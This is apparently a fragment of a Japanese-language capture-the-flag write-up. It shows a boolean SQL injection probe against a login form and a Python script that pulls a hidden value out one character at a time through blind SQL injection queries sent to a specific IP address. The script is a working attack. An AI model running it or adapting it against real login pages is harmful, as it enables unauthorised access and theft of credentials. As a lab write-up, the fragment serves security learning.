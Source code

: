 ```txt
Invalid password

' or 1 and 1=2 #
Unknown user
```
よって以下のスクリプトでpasswordを特定できた！  
```python
#!/usr/bin/env python3
# -*- coding:utf-8 -*-

import os
import requests
import urllib.parse

url = "http://35.190.155.168/b77586a1e8/login"
cookie = "d8iuvjr50tjvrmaj2gf97ts6bl"
candidates = [chr(i) for i in range(48, 48+10)] + \
    [chr(i) for i in range(97, 97+26)] + \
    [chr(i) for i in range(65, 65+26)] + \
    [".","-","+","_",":","<",">",";","'","\"","(",")","=","{","}","[","]","\\","|","/","@","$","!","?","&","#"]
headers= {'Cookie':'PHPSESSID='+cookie}

def attack(attack_sql):
    attack_url = url
    data = "username=" + urllib.parse.quote(attack_sql) + "&password=" + urllib.parse.quote("pass")
    #print(data)
    headers.update([('Content-Type','application/x-www-form-urlencoded')])
    res = requests.post(attack_url, headers=headers,verify=False,data=data)
    #print(res.text)
    return res

def create_pass_query(pw):
    # ' or 1 and substr(pass,1,1)='f' -- -
    query = "' or 1 and substr(username," + str(len(pw)) + ",1)='"+pw[-1]+"' limit 2,1 -- -"
    print(query)
    return query

def check_result(res):
    if 'Invalid password' in res.text:
        return True
    return False

####################
###     main     ###
####################

# find pw
fix_pass = ""
is_end = False
while not is_end:
    for c in candidates:
        try_pass = fix_pass + str(c)
        print(try_pass)
        query = create_pass_query(try_pass)
        res = attack(query)
        if check_result(res):
            fix_pass += c
            break
        if c == '#':
            is_end = True
            

```